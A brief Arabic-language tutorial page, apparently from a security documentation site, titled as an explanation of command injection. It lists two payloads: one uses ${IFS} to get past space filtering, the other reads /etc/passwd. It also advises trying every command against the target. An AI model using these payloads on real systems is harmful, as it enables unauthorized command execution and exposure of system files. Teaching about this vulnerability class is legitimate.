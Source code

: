 ```yaml
---
sidebar_position: 4
---
```

# شرح ثغرة Command Injection

### Payload 

`ls${IFS}-la`
`cat</etc/passwd`


> ملاحظة قد لا تعمل بعض هاذة الاوامر على نظام Linux الخاص بك ولاكنها قد تعمل على جهاذ الهدف لذلك من الافضل تجربة كل ما تستطيع 

